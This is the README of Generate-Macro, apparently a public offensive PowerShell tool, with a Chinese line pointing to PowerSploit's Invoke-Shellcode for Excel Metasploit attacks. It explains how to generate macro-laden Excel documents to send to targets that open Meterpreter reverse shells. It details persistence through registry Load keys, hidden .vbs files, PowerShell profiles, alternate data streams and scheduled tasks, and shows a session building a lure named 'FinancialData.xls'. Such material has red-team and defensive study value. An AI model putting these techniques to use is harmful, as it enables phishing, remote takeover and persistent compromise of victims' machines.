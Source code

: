 配合https://github.com/Jumbo-WJB/PowerSploit/blob/master/CodeExecution/Invoke-Shellcode.ps1进行excel msf攻击
<h2>Coded by Matt Nelson (@enigma0x3)</h2>

<h4>SYNOPSIS</h4>
Generate-Macro is a standalone PowerShell script that will generate a malicious Microsoft Office document with a specified payload and persistence method.

[!] This script will temporarily disable 2 macro security settings while creating the document.
[!] The idea is to generate your malicious document on a development box you OWN and use that document to send to a target.

<h4>DESCRIPTION</h4>
This script will generate malicious Microsoft Excel Documents that contain VBA macros. 
This script will prompt you for an IP address and port (you will receive your shell at this address and port) and the name of the malicious document. From there, the script will then prompt you to choose from a menu of different attacks, all with different persistence methods. Once an attack is chosen, it will then prompt you for your payload type. Currently, only HTTP and HTTPS are supported.

When naming the document, do not include a file extension.

<i>These attacks use Invoke-Shellcode, which was created by Matt Graeber. Follow him on Twitter --> <a href="https://www.twitter.com/mattifestation" target="_blank">@mattifestation</a></i>

<h4>ATTACK TYPES</h4><ul>
<li>Meterpreter Shell with Logon Persistence: <br />
This attack delivers a meterpreter shell and then persists in the registry by creating a hidden .vbs file in C:\Users\Public and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute the .vbs file on login.</li>

<li>Meterpreter Shell with PowerShell Profile Persistence: <br />
This attack requires the target user to have Administrator privileges but is quite creative. 
It will deliver you a shell and then drop a malicious .vbs file in C:\Users\Default\AppData\Roaming\Microsoft\Windows\Cookies\cookie.vbs. Once dropped, it creates an infected PowerShell Profile file in C:\Windows\SysNative\WindowsPowerShell\v1.0\ and then creates a registry key in HKCU\Software\Microsoft\Windows NT\CurrentVersion\Windows\Load that will execute Powershell.exe on startup. 
Since the PowerShell profile loads automatically when Powershell.exe is invoked, your code is executed automatically.</li>

<li>Meterpreter Shell with Alternate Data Stream Persistence: <br />
This attack will give you a shell and then persists by creating 2 alternate data streams attached to the AppData
folder. It then creates a registry key that parses the Alternate Data Streams and runs the Base64 encoded payload.</li>

<li>Meterpreter Shell with Scheduled Task Persistence: <br />
This attack will give you a shell and then persist by creating a scheduled task with the action set to
the set payload.</li>

<h4>EXAMPLE</h4>
```
PS> ./Generate-Macro.ps1
Enter IP Address: 10.0.0.10
Enter Port Number: 1111
Enter the name of the document (Do not include a file extension): FinancialData

--------Select Attack---------
1. Meterpreter Shell with Logon Persistence
2. Meterpreter Shell with Powershell Profile Persistence (Requires user to be local admin)
3. Meterpreter Shell with Microsoft Outlook Email Persistence
------------------------------
Select Attack Number & Press Enter: 1

--------Select Payload---------
1. Meterpreter Reverse HTTPS
2. Meterpreter Reverse HTTP
------------------------------
Select Payload Number & Press Enter: 1
Saved to file C:\Users\Malware\Desktop\FinancialData.xls
```
